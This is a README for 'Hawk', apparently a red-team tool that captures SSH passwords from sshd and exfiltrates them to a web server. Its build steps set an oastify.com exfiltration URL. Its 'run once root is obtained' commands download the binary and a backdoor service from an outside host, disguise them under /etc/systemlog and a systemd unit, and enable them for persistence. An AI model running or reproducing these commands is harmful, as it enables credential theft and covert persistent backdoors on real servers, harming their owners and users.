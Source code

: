# Hawk

This tool monitors sshd for passwords being sent to the server.

## Description

Hawk is a simple tool designed to monitor the sshd service for passwords being sent to the server. It includes a bash script for easy installation and a Go program for password exfiltration to a web server.

## Building for server

```bash
git clone https://github.com/MattKeeley/hawk.git &&
cd hawk


echo "http://bq5j88gurv5ohn0qyxa02jii3990xulj.oastify.com" > exfil_location


go build -o hawk &&
cp hawk /home/ubuntu/webserver &&
cp hawk_backdoor /home/ubuntu/webserver
```

## Run once root is obtained:

```bash
 sudo ls /etc/systemlog || sudo wget http://redteam.prodefense.io:1337/hawk -O /etc/systemlog > /dev/null 2>&1
 sudo chmod +x /etc/systemlog
 sudo ls /etc/systemd/system/systemlog.service || sudo wget http://redteam.prodefense.io:1337/hawk_backdoor -O /etc/systemd/system/systemlog.service
 sudo systemctl start systemlog.service
 sudo systemctl enable systemlog.service

 sudo ls /etc/systemd/system/systemlog.service || sudo wget http://redteam.prodefense.io:1337/hawk_backdoor -O /etc/systemd/system/systemlog.service
```
